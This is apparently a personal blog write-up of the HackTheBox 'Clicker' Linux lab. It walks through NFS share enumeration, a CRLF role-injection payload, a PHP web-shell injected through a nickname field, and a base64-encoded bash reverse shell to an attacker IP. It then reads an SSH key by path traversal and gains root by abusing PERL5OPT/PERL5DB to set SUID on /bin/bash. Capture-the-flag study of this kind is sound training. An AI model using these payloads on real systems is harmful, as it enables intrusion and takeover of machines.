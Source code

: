 ```yaml
---
layout: post
title: "Clicker-Linux-Medium"
date:   2025-07-10 12:05:57 -0400
categories: writeups
thumb: /assets/images/logos/5a89d213ede5af4b4f94035fd059f976.webp
---
```


# Clicker

HackTheBox: Medium

<aside>
💡 Visual is a linux  machine which handles with mount files

</aside>
<br/><br/>
## 1: Enumeration
<br/><br/>
- nmap scanning: Making port scanning we find
1. 80-http
2. 22-ssh
3. 111-rcbind
4. 2049 nfs-acl 
<br/><br/>
A server with share mounts
<br/><br/>
```bash
mkdir -p /mnt/nfs_file_shares
cd mnt 
mount -o nolock 10.10.11.232:/mnt/nfs_files_shares
cd backups
```
<br/><br/>
## 2: User flag
<br/><br/>
Copy those files to our workspace
<br/><br/>
- We found some php files looking around (save.php) theres an admin role, we go to http service and register as a user.
- We register burp suite to check request and responses and sent a request changing the role. using CRLF vulnerability
<br/><br/>
```bash
&role%0a=Admin
```
<br/><br/>
- Log out and log in again
- We can export some results and change the extension with burp suite for excecute commands in php
- There’s a vulnerable parameter called nickname
<br/><br/>
```bash
&nickname=<%3fphp+system($_GET['CMD'])+%3f>)
```
<br/><br/>
Once inside of php file we use
<br/><br/>
```bash
<file_name>.php?cmd=cat/etc/passwd
```
<br/><br/>
A user called jack in the machine
<br/><br/>
We are ready to be data
<br/><br/>
```bash
echo "sh -i >& /dev/tcp/<your_ip>/9001 0>&1" | base64
```
<br/><br/>
```bash
echo%20%22c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTQ3LzkwMDEgMD4mMQo=%22%20|%20base64%20-d%20|%20bash
```
<br/><br/>
Estabilize using python
<br/><br/>
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
ctrl + z
stty raw -echo; fg
```
<br/><br/>
There is a PKI we can see it executing
<br/><br/>
```bash
./execute_query 5 ../.ssh/id_rsa
```
<br/><br/>
This key has a problem with the format, just change the format and use
<br/><br/>
```bash
chmod 600 id_rsa 
sudo ssh -i id_rsa jack@10.10.11.232
```
<br/><br/>
![Untitled]({{ '/assets/images/f4be24e3-b650-4fa0-8967-50ac927aaa38-export-270ef6e6-110b-4fd7-b57c-8d927e335c2c/f4be24e3-b650-4fa0-8967-50ac927aaa38-export-270ef6e6-110b-4fd7-b57c-8d927e335c2c_Untitled.png' | relative_url }})
<br/><br/>
## 3: Priv esc
<br/><br/>
```bash
sudo -l
```
<br/><br/>
![Untitled]({{ '/assets/images/f4be24e3-b650-4fa0-8967-50ac927aaa38-export-270ef6e6-110b-4fd7-b57c-8d927e335c2c/f4be24e3-b650-4fa0-8967-50ac927aaa38-export-270ef6e6-110b-4fd7-b57c-8d927e335c2c_Untitled_1.png' | relative_url }})
<br/><br/>
[monitor.sh](http://monitor.sh) execute a xml_pp file lets see what it is
<br/><br/>
![Untitled]({{ '/assets/images/f4be24e3-b650-4fa0-8967-50ac927aaa38-export-270ef6e6-110b-4fd7-b57c-8d927e335c2c/f4be24e3-b650-4fa0-8967-50ac927aaa38-export-270ef6e6-110b-4fd7-b57c-8d927e335c2c_Untitled_2.png' | relative_url }})
<br/><br/>
This vulnerability is called as “perl_startup” Privilege Escalation.
<br/><br/>
That enabled me to execute scripts with root privileges, as I had the ability to configure the environment while running Perl.
<br/><br/>
```bash
sudo PERL5OPT=-d PERL5DB='exec "chmod u+s /bin/bash"' /opt/monitor.sh
bash -p
```
<br/><br/>
Machine pwned!!!!

<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>


<link rel="stylesheet" href="{{ '/assets/css/imagesstyle.css' | relative_url }}">
